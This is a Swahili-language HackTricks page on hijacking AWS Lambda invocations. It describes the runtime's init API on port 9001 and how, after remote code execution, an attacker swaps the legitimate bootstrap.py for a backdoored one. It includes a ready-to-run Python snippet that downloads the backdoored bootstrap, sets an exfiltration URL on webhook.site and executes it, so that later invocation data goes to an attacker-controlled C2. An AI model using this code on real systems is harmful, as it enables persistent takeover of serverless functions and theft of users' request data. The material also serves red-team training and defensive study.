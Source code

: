 # AWS - Pata Maombi ya Lambda

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Mchakato wa Lambda

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** ni mchakato nje ya kontena ambao **inatuma** **maombi** kwa mchakato wa **init**.
2. Mchakato wa init unasikiliza kwenye bandari **9001** ukionyesha baadhi ya maeneo ya kuvutia:
* **`/2018-06-01/runtime/invocation/next`** – pata tukio la maombi linalofuata
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – rudisha jibu la handler kwa maombi
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – rudisha kosa la utekelezaji
3. **bootstrap.py** ina mzunguko unaopata maombi kutoka kwa mchakato wa init na inaita msimbo wa watumiaji kuweza kuyashughulikia (**`/next`**).
4. Hatimaye, **bootstrap.py** inatuma kwa init **jibu**

Kumbuka kwamba bootstrap inachukua msimbo wa mtumiaji kama moduli, hivyo utekelezaji wowote wa msimbo unaofanywa na msimbo wa watumiaji unafanyika katika mchakato huu.

## Kuiba Maombi ya Lambda

Lengo la shambulio hili ni kufanya msimbo wa watumiaji utekeleze mchakato mbaya wa **`bootstrap.py`** ndani ya mchakato wa **`bootstrap.py`** unaoshughulikia ombi lenye udhaifu. Kwa njia hii, mchakato wa **bootstrap mbaya** utaanza **kuzungumza na mchakato wa init** ili kushughulikia maombi wakati **bootstrap halali** ime **kwama** ikifanya mchakato mbaya, hivyo haitahitaji maombi kwa mchakato wa init.

Hii ni kazi rahisi kufanikisha kwani msimbo wa mtumiaji unatekelezwa na mchakato halali wa **`bootstrap.py`**. Hivyo mshambuliaji anaweza:

* **Kutuma matokeo ya uwongo ya ombi la sasa kwa mchakato wa init**, hivyo init inafikiri mchakato wa bootstrap unangojea maombi zaidi.
* Ombi lazima litumwe kwa **`/${invoke-id}/response`**
* Invoke-id inaweza kupatikana kutoka kwenye stack ya mchakato halali wa **`bootstrap.py`** kwa kutumia moduli ya [**inspect**](https://docs.python.org/3/library/inspect.html) ya python (kama [ilivyopendekezwa hapa](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) au tu kuomba tena kwa **`/2018-06-01/runtime/invocation/next`** (kama [ilivyopendekezwa hapa](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Tekeleza **`boostrap.py`** mbaya ambayo itashughulikia maombi yanayofuata
* Kwa ajili ya kujificha, inawezekana kutuma vigezo vya maombi ya lambda kwa C2 inayodhibitiwa na mshambuliaji na kisha kushughulikia maombi kama kawaida.
* Kwa shambulio hili, inatosha kupata msimbo wa asili wa **`bootstrap.py`** kutoka kwenye mfumo au [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), kuongeza msimbo mbaya na kuutekeleza kutoka kwenye ombi la sasa la lambda.

### Hatua za Shambulio

1. Pata udhaifu wa **RCE**.
2. Tengeneza **bootstrap** mbaya (mfano [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Tekeleza** bootstrap mbaya.

Unaweza kwa urahisi kufanya vitendo hivi kwa kukimbia:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
